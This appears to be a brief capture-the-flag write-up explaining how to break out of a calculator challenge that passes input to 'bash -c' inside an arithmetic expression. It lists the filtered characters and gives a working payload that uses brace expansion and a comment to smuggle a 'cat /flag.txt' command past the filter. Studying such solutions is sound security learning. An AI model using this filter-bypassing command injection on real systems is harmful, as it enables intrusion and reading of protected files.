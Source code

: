 
Looking at the challenge source code we could see that there are restricted symbols `string{" ", "`", "$", "&", "|", ";", ">"}`

Also the challenge uses `bash -c` with operands added with something like this `(3+4)`

 which will display the final calculated code like this
 ```
"echo $((" + op + "))"
```
so if we replace the operand inputs with this

```
{cat,/flag.txt})#( 
```

it will run `cat /flag.txt` and show us the output



